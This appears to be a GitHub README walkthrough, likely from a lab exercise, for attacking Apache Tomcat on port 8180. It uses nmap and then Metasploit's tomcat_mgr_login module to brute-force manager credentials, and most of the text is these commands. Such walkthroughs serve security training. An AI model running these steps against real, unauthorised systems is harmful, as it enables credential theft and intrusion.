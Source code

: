 # Port-8180-Apache-Tomcat-Coyote-JSP
1.nmap -sV <traget>
![image](https://github.com/thanawut2903/Port-8180-Apache-Tomcat-Coyote-JSP/assets/159118913/d6b10c23-555d-4a49-af70-3df6aade3910)
2.Port 8180/tcp open  http Apache Tomcat/Coyote JSP
![image](https://github.com/thanawut2903/Port-8180-Apache-Tomcat-Coyote-JSP/assets/159118913/ca8d00ea-9171-4128-a431-096216ff71d9)
3.msfconsole
4.msf 6 > search tomcat
![image](https://github.com/thanawut2903/Port-8180-Apache-Tomcat-Coyote-JSP/assets/159118913/e15573ad-5131-4fd1-af7c-d88a3502e4d5)
5.msf 6 > use auxiliary/scanner/http/tomcat_mgr_login
![image](https://github.com/thanawut2903/Port-8180-Apache-Tomcat-Coyote-JSP/assets/159118913/f1867e10-b251-494c-bbb2-51b832d524ff)
6.msf 6 auxiliary(scanner/http/tomcat_mgr_login) > set RHOST <traget>
7.msf 6 auxiliary(scanner/http/tomcat_mgr_login) > set RPORT 8180
8.msf 6 auxiliary(scanner/http/tomcat_mgr_login) > set stop_on_success true
![image](https://github.com/thanawut2903/Port-8180-Apache-Tomcat-Coyote-JSP/assets/159118913/c17f9af3-23fb-41b0-9802-864bb02a8390)
9msf 6 auxiliary(scanner/http/tomcat_mgr_login) > exploit
![image](https://github.com/thanawut2903/Port-8180-Apache-Tomcat-Coyote-JSP/assets/159118913/8d99cafb-c6cb-47f5-a1ae-fd34d92793ce)
